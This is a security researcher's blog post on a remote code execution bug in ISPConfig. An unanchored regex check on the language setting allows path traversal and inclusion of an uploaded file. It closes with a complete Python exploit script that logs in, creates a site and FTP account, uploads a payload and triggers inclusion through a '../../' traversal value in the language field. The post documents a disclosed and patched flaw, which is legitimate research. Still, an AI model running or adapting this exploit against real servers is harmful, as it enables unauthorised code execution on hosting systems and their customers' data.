 ```yaml
---
layout: post
title:  "Bug or Backdoor - Exploiting a Remote Code Execution in ISPConfig"
date:   2018-08-20
categories: security ispconfig exploit vulnerability
---
```


## Introduction

In this blogpost I will write about a suspicious which turned out to be fale, how regex-es can go wrong and also how to chain logic features to achieve reliable Remote Command Execution. 

I was having a coffe with one of my friends who works at a web-hosting company and talking about the software they use. There I heard about ISPConfig and how many features and secure it was.Since I had some free time , I decided to have a look at it and managed to find a critical vulnerability in it.


## Finding the vulnerability

I downloaded and installed ISPConfing on a Ubuntu VM and started analyzing the source code.
There were a lot of bad practices in the code, but there were also a lot of checks which made most of the code unexploitable.ISPConfig works as a system which contains clients,
and they can create websites, ftp accounts etc., but all of them are on their own chroot.


The first thing that I do when I audit some software is to find out what the attack surface is, and what kind of bugs I want to find.  Seeing this kind of architecture I decided to audit the code that was exposed from a client user. So I started auditing it , and after a lot of failed attempts because of the aggressive checks done by ISPConfig, I found something interesting in the ```user_settings.php ``` file.

On almost any file there is a call to ``` include ISPC_ROOT_PATH.'/web/login/lib/lang/'.$_SESSION['s']['language'].'.lng';``` Searching a little bit of where this value was initialized I found the source code below.

```php
 if(preg_match('/[a-z]{2}/',$_POST['language'])) {
            $_SESSION['s']['user']['language'] = $_POST['language'];
            $_SESSION['s']['language'] = $_POST['language'];
        } else {
            $app->error('Invalid language.');
        }

```
And I was like: "Come on , not regex checks again."

But after reading the regex I noticied a flaw in the logic. The problem is that every string that contains two [a-z] characters will match the regex, and there were no further checks for path traversal attacks.

This was very strange since all of the regexes in the code had the ``` ^ regex-pattern $``` which only matched if the entire string matched the pattern not only a part of it.

Seeing this I was suspicious if this was a backdoor and not some random flaw, but after talking with Till (Maintainer of ISPConfig) he told me that it wasn't the case and the code dated back as the first version of ISPConfig 3 and it was something that was missed during the internal audits.

## Exploiting the vulnerability 

From the analysis now we have a directory traversal which can be abused for local file inclusion attacks.

Since in the new versions of php we can not use null byte injections, either a path-truncation attack but we can create a ftp-account, upload the file we want to include with ```.lng ``` extension at our path and the code will get executed as the ispconfig account and not as our chroot-ed account.


So the idea of the exploit is like this :

1. Create a Site
2. Create an FTP Account
3. Disclose the current path of the FTP upload directory.
4. Upload the payload to our directory.
5. Include the uploaded payload.
6. RCE Achieved !!!

I wrote an exploit for this bug, which automatically did all the steps above by itself.
Below is an image of the exploit in action.

![Exploiting the vulnerability](/images/isp-config-exploit.png)

## Closing remarks

This was a nice bug to find and could have been missed very easily.
An important thanks goes to Till Brehm who acknoledged the vulnerability and fixed it in 1 day, which is impressive.

You can find more details on how to update [here](https://www.ispconfig.org/blog/ispconfig-3-1-13-released-important-security-bugfix/).

# Exploit code

```python
import requests
import ftplib
import json
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


host = "REPLACE_IP:8080"
username = "REPLACE_Username"
password = "REPLACE_Password"

exp = requests.session()
user_agent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
ftp_username = "randomusr1"
domain = "pwnerrr.com"
site_id = 1
payload_name = "pwned1"
path = ""



def login():
	r = exp.post('https://%s/login/index.php' % host,data={'username':username,'password':password,'s_mod':'login','s_pg':'index'},verify=False)
	if(r.text.find("wrong")>0):
		print "[-] Incorrect credentials [-]"
	else:
		print "[+] Logged in Succesfully [+]"


def createSite():
	
	r = exp.get('https://%s/sites/web_vhost_domain_edit.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/web_vhost_domain_edit.php' % host,data={'server_id':1,'ip_address':'*','ipv6_address':'','domain':'%s' % domain,'hd_quota':1024,'traffic_quota':1024,'subdomain':'www','php':'no','fastcgi_php_version':'','active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	pass

def createFtp():
	global site_id
	r = exp.get('https://%s/sites/ftp_user_edit.php' % host,verify=False)
	print "[+] Getting IDSof the sites [+]"
	temp_array = r.text.split('<option value=')
	nr_sites = len(temp_array)
	print "[+] Number of sites %d [+]" % (int(nr_sites) - 1)
	# Find the latest created site by checking the ID.
	max_id = -9999

	for i in range(1,nr_sites):
		temp = int(temp_array[i].split('>')[0].replace("'",""))
		if(temp > max_id):
			max_id = temp
	site_id = max_id
	print "[+] Newly created site id is : %d [+]" % site_id
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	r = exp.post('https://%s/sites/ftp_user_edit.php' % host,data={'parent_domain_id':site_id,'username':'%s' % ftp_username,'password':'%s' % password,'repeat_password':'%s' % password,'quota_size':1024,'active':'y','id':'','_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	print "[+] Created FTP Account [+]"
	pass


def uploadPayload():
	ftp = ftplib.FTP(host.split(":")[0])
	ftp.login(username+ftp_username, password)
	ftp.cwd("web")
	ftp.storlines("STOR %s.lng" % payload_name,open("test.txt"))
	print "[+] Payload %s uploaded Succesfully [+]" % payload_name
	pass

def waitTillCreation():
	while 1:
		print "[+] Trying [+]"
		r = exp.get('https://%s/datalogstatus.php' % host,verify=False)
		temp = json.loads(r.text)
		if(temp["count"] == 0):
			print "[+] Everything created .... [+]"
			return
		time.sleep(5)

def getRelativePath():
	
	global path

	r = exp.get('https://%s/sites/web_vhost_domain_edit.php?id=%d&type=domain' % (host,site_id),verify=False)
	path = r.text.split('Document Root</label>')[1].split('<div class="col-sm-9">')[1].split('<')[0]
	path += "/web/" + payload_name
	print "[+] Uploading payload in %s [+]" % path

def triggerVuln():
	r = exp.get('https://%s/tools/user_settings.php' % host,verify=False)
	_csrf_key = r.text.split('name="_csrf_key" value="')[1].split('"')[0]
	_csrf_id = r.text.split('name="_csrf_id" value="')[1].split('"')[0]
	phpsessid = r.text.split('name="phpsessid" value="')[1].split('"')[0]
	user_id = r.text.split('name="id" value="')[1].split('"')[0]
	r = exp.post('https://%s/tools/user_settings.php' % host,data={'passwort':'','repeat_password':'','language':'../../../../../../../../../../../../../..%s' % path,'id':'%s' % user_id,'_csrf_id':'%s' % _csrf_id,'_csrf_key':'%s' % _csrf_key,'next_tab':'','phpsessid':'%s' % phpsessid},verify=False)
	r = exp.get('https://%s/index.php'% host,verify=False)
	print r.text

login()
createSite()
createFtp()
getRelativePath()
waitTillCreation()
uploadPayload()
triggerVuln()

```